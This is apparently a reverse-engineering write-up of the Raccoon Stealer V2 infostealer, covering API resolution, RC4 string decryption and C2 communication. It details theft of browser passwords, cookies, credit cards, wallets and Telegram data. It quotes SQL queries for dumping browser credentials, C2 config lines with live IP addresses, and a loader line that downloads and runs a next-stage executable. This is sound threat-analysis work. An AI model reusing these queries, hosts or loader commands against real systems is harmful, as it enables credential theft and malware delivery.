# Raccoon Stealer


## Conclusion

Raccoon Stealer V2 (or RecordBreaker) Is a stealer that provided as a service with about 200$/m. It is a new version of Raccoon stealer that appeared in 2019 and died for a while then it returns with this new Stealer which known as RecordBreaker.  
It Comes with a lot of capabilities, It can grab a lot of sensitive information like :

1. Steal Victim System information
2. Steal Victim Username and passwords stored in the browser
3. Steal Victim Browser's Autofill Information
4. Steal Credit Card information
5. Steal Crypto wallets Information
6. Steal Bitcoin Wallets
7. Grab any file from the victim system
8. Take Screenshots from the victim system
9. Load next stage

## Analysis

### First Look

First we start with basic analysis, using Detect it easy we see that the file seems to be not packed. Exploring the strings tab, we see a lot of base64 encoded strings and two registry keys `SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall` and `SOFTWARE\Microsoft\Cryptography`



trying to encode the base64 strings will produce encrypted data so i think thats all with basic insights about the executable and lets upload the sample to IDA (and ghidra for decompiling)

### Dynamically resolving DLLs and APIs

In the entry function we see two function calls at the very beginning to `sub_401000` and `sub_404036`. by navigating to `sub_401000` we see that this function resolve the required APIs



### Decrypting the encrypted data

After going back to to the entry function, After resolving the APIs there is another function call `sub_404036` . This function takes a pattern that seems to be decrypting the data. The sequence is a call to `sub_00401806` that calls `CryptStringToBinaryA` after calling `LstrLenA`. The call to `CryptStringToBinaryA` takes a the `dwFlags` parameter `0x00000001 (CRYPT_STRING_BASE64)` which decode the string using base64 encoding routine and returns a byte array contains the base64-decoded encrypted data.



after decrypting the string there are calls to `sub_0040A59A` function that convert the resulting strings to unicode strings by calling `MultiByteToWideChar`

to get all the decrypted strings we can use the debugger or by making a script to decrypt them for us

```python
import base64
from Crypto.Cipher import ARC4

strings = [  'fVQMox8c','bE8Yjg==','bkoJoy0=','LEtihSAW6eunMDV+Aes3rVhAClFoaQM=',...,'59c9737264c0b3209d9193b8ded6c127','XVHmGYV5cH1pvOC0w/cmantl/oG9aw==']
key = "edinayarossiya".encode('utf-8')

for i in strings:
	cipher = ARC4.new(key)
	print(cipher.decrypt(base64.b64decode(i.encode('utf-8'))))

```

the decrypted strings:

```plaintext
tlgrm_
ews_
grbr_
%s\tTRUE\t%s\t%s\t%s\t%s\t%s\n
URL:%s\nUSR:%s\nPASS:%s\n
\t\t%d) %s\n
\t- Locale: %s\n
\t- OS: %s\n
\t- RAM: %d MB\n
\t- Time zone: %c%ld minutes from GMT\n
\t- Display size: %dx%d\n
\t- Architecture: x%d\n
\t- CPU: %s (%d cores)\n
\t- Display Devices:\n%s\n
formhistory.sqlite
logins.json
\\autofill.txt
\\cookies.txt
\\passwords.txt
Content-Type: application/x-www-form-urlencoded; charset=utf-8
Content-Type: multipart/form-data; boundary=
Content-Type: text/plain;
User Data
wallets
wlts_
ldr_
scrnsht_
sstmnfo_
token:
nss3.dll
sqlite3.dll
SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion
PATH
ProductName
Web Data
sqlite3_prepare_v2
sqlite3_open16
sqlite3_close
sqlite3_step
sqlite3_finalize
sqlite3_column_text16
sqlite3_column_bytes16
sqlite3_column_blob
SELECT origin_url, username_value, password_value FROM logins
SELECT host_key, path, is_secure , expires_utc, name, encrypted_value FROM cookies
SELECT name, value FROM autofill
pera
Stable
SELECT host, path, isSecure, expiry, name, value FROM moz_cookies
SELECT fieldname, value FROM moz_formhistory
cookies.sqlite
machineId=
&configId=
"encrypted_key":"
stats_version":"
Content-Type: application/x-object
Content-Disposition: form-data; name="file"; filename="
POST
MachineGuid
image/jpeg
GdiPlus.dll
Gdi32.dll
GdiplusStartup
GdipDisposeImage
GdipGetImageEncoders
GdipGetImageEncodersSize
GdipCreateBitmapFromHBITMAP
GdipSaveImageToFile
BitBlt
CreateCompatibleBitmap
CreateCompatibleDC
DeleteObject
GetObjectW
SelectObject
SetStretchBltMode
StretchBlt
SELECT name_on_card, card_number_encrypted, expiration_month, expiration_year FROM credit_cards
NUM:%s\nHOLDER:%s\nEXP:%s/%s\n
\\CC.txt
NSS_Init
NSS_Shutdown
PK11_GetInternalKeySlot
PK11_FreeSlot
PK11_Authenticate
PK11SDR_Decrypt
SECITEM_FreeItem
hostname":"
","httpRealm":
encryptedUsername":"
","encryptedPassword":"
","guid":
Profiles
b"\xee\xefV>\x0c\xb5Ge\xb6,A\xef\x87=g)'\x99\x0c\xbf7iT\xfd"
b'Ti\x8d\xc8\xf7:\xdc\x9f\xeb\xff\xdc\xef\xb1\x154\xb4*\x00\x87\xd9\xf0q'
```

as we can see, the last two strings seems not to be decrypted. If we go back the `start` function we see that the string `59c9737264c0b3209d9193b8ded6c127` is a different key used to decrypt the string `XVHmGYV5cH1pvOC0w/cmantl/oG9aw==` and the decrypted string is

```plaintext
http://51.195.166.184/
```

there are some other decryption routines using the same key but the strings are empty.

then, the attacker retrieves the locale name which is `<language>-<REGION>` and compare it against `ru` for some reason, but the flow didn't changed if it is!



The attacker open a mutex with a name `8724643052` and if it existed, the malware terminate itself and if it is not existed it creates a mutex with that name.



### Alert the server with a new victim Info

The next call is to check if the victim running as local system by making a call to `GetTokenInformation` to retrieve the token user data that include SID and then check this SID with `S-1-5-18` to see if the user is running as a `LocalSystem` or not. If it is, the function returns 1 and not returns 0


The next few instruction retrieves a decrypted strings: `Content-Type: application/x-www-form-urlencoded; charset=utf-8` and `*/*` then calls a function that formats the input with a given pattern, This function is referenced in a lot of places in the sample.



this function format the input string with `\r\n` appended to it and calls the function that seems to be that does the formatting procedures and it's used in so many places



Then the malware make a call to a function `sub_0040A720` after allocating two regions in the memory .if we navigate to this function we see that it first reference the previously allocated memory and the open the registry key `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Cryptography\` and read the value `MachineGuid` and returns it in EAX register



then the malware retrieves the username of the current user and makes some formatting to the data before sending it. The formatted data are some information about the victim machine like:

```plaintext
machineId=<GUID>|<username>&confId=<predefined value>
machineId=d8874349-72d5-492c-8d8c-5e6d3a68e127|d01a&configId=59c9737264c0b3209d9193b8ded6c127

```

configId used is the key used to decrypt the C2 IP address .
Now, the first piece of data is ready to be sent to the attacker and the function `sub_004079F3` did this. First, the function references the IP of the C2 server and make some comparisons to its beginning to make sure that it's in a valid format. Then it gets a pointer to `/` at the end of the IP address and then make a call to `InternetOpenW("record",0,0,0)` it parameter is the User-Agent of the request sent .now it's ready to connect to the remote server, so it connects to the remote server over http transfer protocol and port 443, the default for https transfer protocol



Then it sends the data to the C2 server set before. The content type sent in the request in the form `Content-Type: application/x-www-form-urlencoded; charset=utf-8\r\n\r\n\r\n` and the data sent in the `OptionalHeader` parameter which sent after the request headers. And after sending the data it waits for a response from the server. Then it parses the response for a specific field contain the word `Token:` if it found it continue running if it is not, it exits.

### Install required libraries

It search for the `libs` word in the response in order to prepare a legitimate DLL that are required for the malware to run. the command can be in form:

```plaintext
libs_nss3:http://{HOSTADDR}/{RANDOM_STRING}/nss3.dll
libs_msvcp140:http://{HOSTADDR}/{RANDOM_STRING}/msvcp140.dll libs_vcruntime140:http://{HOSTADDR}/{RANDOM_STRING}/vcruntime140.dll
```



### Get victim machine information

Then, It retrieves the path of Local AppData `C:\Users\d01a\AppData\Local` by calling `SHGetFolderPathW` from the function `sub_0040A323` and format it by adding the word `Low` at the end of the path
then it adds the path to sqlite3.dll and other downloaded DLLs to the PATH environment variables



The malware collects information about the system through the function call a `sub_004097BB` , it search for the word `sstmnfo_` in the response of the C2 Server and the data to be collected is determined in the response, after a colon `:` and a pipe `|` between the key words of the data.
Then, it begin collecting information about the system:

1. The locale information
   the data is formatted in the following format - Locale: <locale information>

   

2. Time zone information
   the data is formatted in the form: - Time zone: <%c%ld> minutes from GMT
3. OS Version
   retrieves the OS version by reading the registry key `SOFTWARE\Microsoft\Windows NT\CurrentVersion\ProductName` and the data formatted in the form: - OS: <%s OS>

   

4. system Architecture
   By calling `GetSystemWow64DirectoryW` that retrieves the path of of the system directory used by WOW64 that only exist in x64 Architecture. The data formated in form: - Architecture: x<%d Architecture>
5. RAM status
   gets the memory status by calling `GlobalMemoryStatusEx` that retrieves both the virtual and physical memory usage and format in the form: - RAM: <%d RAM Usage> MB
6. CPU specifications
   Using instruction `cpuid` to retrieve the processor specification. This instruction output depends on the value in the `eax` register. The call to `cpuid` with `eax = 0x80000002 , 0x80000003 and 0x80000004 ` gets Processor Brand String .Also it uses `GetSystemInfo` API to get the number of processors. And send it in the format: - CPU: <%s CPU Brand> (<%d Cores number> cores)

   

7. Display
   Get the display information by calling `GetSystemMetrics` with index 0 to retrieves The width of the screen of the primary display monitor and format it in form: - Display size: <%d>x<%d>
8. Display devices - Display Devices: <%s>
9. Display Name And version
   Get this information from the registry `SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall` And the Specific GUID to get the display name and version
   Then it generate a random value and append it to the content-Type header and save the data to a file to send it to the attacker C2 server


That's all with `sstmnfo_` expected functionality. Lets explore the rest of the capabilities of the malware.

### Steal User information saved in Browser

#### Chrome Based

The malware then Loads `sqlite3.dll` and call the function at `sub_00403FAB`. This function is basically allocates two regions of memory and get the paths of `%AppData%` and `%LocalAppData%` directories and then transfer the flow to another functions


lets explore the first function call ` sub_401B13`. It recursively search for `User Data` directory and then goes to `sub_401E26` that have all the functionality. It first start looking for `Local State` file and reads it and search for `"encrypted_key":" ` in it and in the same way, it did with `stats_version":"` .


Then, It starts to resolve some functions from `sqlite3.dll` to use them. And get the path to `Login Data` file and copies it to another file.



It opens a new database connection to `Login Data` copied file with `sqlite3_open` function call then it execute SQL statement:

```sql
SELECT origin_url, username_value, password_value FROM logins
```

to steal the saved username & password and its associated origin URL


Actually, To execute that SQL statement, `sqlite3_step` should be called. the return value of `sqlite3_step` can be different so, it checks if the return value is 100 this means that there is another row of output is available.
To retrieve the content of the database a call to `sqlite3_column_bytes16` that returns the size of the data and `sqlite3_column_text16` to the content as plain text



After collecting these data it format it in the following form in a file `\passwords.txt` to send it:
`URL:%s USR:%s PASS:%s`
In the same way, It get the cookies using the SQL statment:

```sql
SELECT host_key, path, is_secure , expires_utc, name, encrypted_value FROM cookies
```

and format it in the following form in a file `\cookies.txt` to send it:
`%s TRUE %s %s %s %s %s`

It gets the autofill content name and value pairs in the same way using the SQL query

```sql
SELECT name, value FROM autofill
```

and saved the data to a file `\autofill.txt` to send it.

then, it reads the content of `Web Data` file to extract Credit Card information using the SQL query:

```sql
SELECT name_on_card, card_number_encrypted, expiration_month, expiration_year FROM credit_cards
```

and format in the following form in a file `\CC.txt` to send it:
`NUM:%s HOLDER:%s EXP:%s/%s`
and it did the whole thing with the files in `Default` path for the browser

#### FireFox

FireFox Browsers are a little bit different so, it collects the data from it but needs to do different steps.
First it goes to Profiles and search for `cookies.sqlite` and it opens it using sqlite3 and get the cookies using SQL query:

```sql
SELECT host, path, isSecure, expiry, name, value FROM moz_cookies
```

then, The login information from `logins.json` and dumping the passwords using `PK11SDR_Decrypt` function call.

Then, it goes to `formhistory.sqlite` to get the Autofill information using SQL query:

```sql
SELECT fieldname, value FROM moz_formhistory
```

### Steal Crypto wallets information

If the response has the word `wlts_` then, the malware tries to collect all crypto wallets information from the victim. Basically it navigate all the file system searching for a pattern. And in the same way, It navigate the whole system searching for `wallet.dat` which is a bitcoin wallet. and if it found, sends it to the server.


Response be like:

```plaintext
wlts_exodus:Exodus;26;exodus;*;*partitio*,*cache*,*dictionar*
wlts_atomic:Atomic;26;atomic;*;*cache*,*IndexedDB*
wlts_jaxxl:JaxxLiberty;26;com.liberty.jaxx;*;*cache*
```

### grabbing Files

If the response has the word `grbr_` search for the specified file in the system and upload it to the attacker.
the response be like:

```plaintext
grbr_dekstop:%USERPROFILE%\Desktop\|*.txt, *.doc, *pdf*|-|5|1|0|files
grbr_documents:%USERPROFILE%\Documents\|*.txt, *.doc, *pdf*|-|5|1|0|files
grbr_downloads:%USERPROFILE%\Downloads\|*.txt, *.doc, *pdf*|-|5|1|0|files
```

### Telegram connection

The malware can collect Telegram Desktop application data if the response has the word `tlgrm_`.

```plaintext
tlgrm_Telegram:Telegram Desktop\tdata|*|*emoji*,*user_data*,*tdummy*,*dumps*
```


It search for a file specified in the response from the server and navigate to it and copy it to send to the attacker.




### Take screenshot

To take a screenshot the response should have the word `scrnsht_`. First, It resolves APIs from `GdiPlus.dll and Gdi32.dll` to take a screenshot.



All APIs resolved:

```plaintext
  GdiplusStartup
  GdipDisposeImage
  GdipGetImageEncoders
  GdipGetImageEncodersSize
  GdipCreateBitmapFromHBITMAP
  GdipSaveImageToFile
  BitBlt
  CreateCompatibleBitmap
  CreateCompatibleDC
  DeleteObject
  GetObjectW
  SelectObject
  SetStretchBltMode
  StretchBlt
  DC
```

The malware uses these APIs to take a screenshots from the victim system and send them to the attacker


### Loading Next stage

The malware can drop a next stage malware specified in the response from the server containing `ldr_`.

```plaintext
ldr_1:http://94.158.244.119/U4N9B5X5F5K2A0L4L4T5/84897964387342609301.bin|%TEMP%\|exe
```

The malware open a connection to the server and download the content of the file specified in the response to the system


The malware then execute the downloaded file using `ShellExecute` API call



That's all, The malware clear the files that created and release the allocated memory regions



## IOCs:

- sha256: 022432f770bf0e7c5260100fcde2ec7c49f68716751fd7d8b9e113bf06167e03
- 51.195.166[.]184

## References

- https://any.run/cybersecurity-blog/raccoon-stealer-v2-malware-analysis/
- https://bazaar.abuse.ch/sample/022432f770bf0e7c5260100fcde2ec7c49f68716751fd7d8b9e113bf06167e03/
- https://blog.sekoia.io/raccoon-stealer-v2-part-2-in-depth-analysis/
- https://www.sqlite.org/c3ref/funclist.html
- https://www.sqlite.org/rescode.html

